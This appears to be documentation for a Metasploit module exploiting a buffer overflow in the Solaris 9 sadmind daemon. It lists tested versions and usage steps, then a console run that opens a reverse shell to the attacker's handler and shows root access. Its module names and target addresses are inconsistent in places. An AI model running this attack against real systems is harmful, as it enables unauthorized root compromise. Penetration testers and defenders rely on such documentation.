 ## Vulnerable Application

This module exploits a buffer overflow vulnerability in `adm_build_path()`
function of Sun Solstice AdminSuite sadmind daemon.

The distributed system administration daemon (sadmind) is the daemon used by
Solstice AdminSuite applications to perform distributed system administration
operations.

The sadmind daemon is started automatically by the inetd daemon whenever a
request to invoke an operation is received. The sadmind daemon process
continues to run for 15 minutes after the last request is completed, unless a
different idle-time is specified with the -i command line option. The sadmind
daemon may be started independently from the command line, for example, at
system boot time. In this case, the -i option has no effect; sadmind continues
to run, even if there are no active requests.

This module has been successfully tested on:

* Solaris 9u2 12/02 (x86);
* Solaris 9u7 09/04 (x86);
* Solaris 9u8 09/05 (x86).


## Verification Steps

1. Start `msfconsole`
1. Do: `use exploit/solaris/sunrpc/sadmind_adm_build_path`
1. Do: `set rhosts [rhost]`
1. Do: `exploit`
1. You should get a new session as the `root` user.


## Options


## Scenarios

### Solaris 9u2 12/02 s9x_u2wos_10 (x86)

```
msf > use exploit/solaris/sunrpc/sadmind_exec
msf exploit(solaris/sunrpc/sadmind_exec) > set rhosts 192.168.200.155
rhosts => 192.168.200.148
msf exploit(solaris/sunrpc/sadmind_exec) > set payload generic/shell_reverse_tcp
payload => generic/shell_reverse_tcp
msf exploit(solaris/sunrpc/sadmind_exec) > run
[*] Started reverse TCP handler on 192.168.200.130:4444 
[*] 192.168.200.155:111 - Creating nop block...
[*] 192.168.200.155:111 - Trying to exploit sadmind with address 0x08062030...
[-] 192.168.200.155:111 - 192.168.200.155:111 - SunRPC - No response to SunRPC call for procedure: 1
[*] 192.168.200.155:111 - Trying to exploit sadmind with address 0x08069830...
[-] 192.168.200.155:111 - 192.168.200.155:111 - SunRPC - No response to SunRPC call for procedure: 1
[*] 192.168.200.155:111 - Trying to exploit sadmind with address 0x08071030...
[-] 192.168.200.155:111 - 192.168.200.155:111 - SunRPC - No response to SunRPC call for procedure: 1
[*] Command shell session 1 opened (192.168.200.130:4444 -> 192.168.200.155:32842) at 2025-04-21 08:18:47 -0400

id
uid=0(root) gid=0(root)
uname -a
SunOS unknown 5.9 Generic_112234-03 i86pc i386 i86pc
cat /etc/release
                         Solaris 9 12/02 s9x_u2wos_10 x86
           Copyright 2002 Sun Microsystems, Inc.  All Rights Reserved.
                        Use is subject to license terms.
                           Assembled 05 November 2002
```
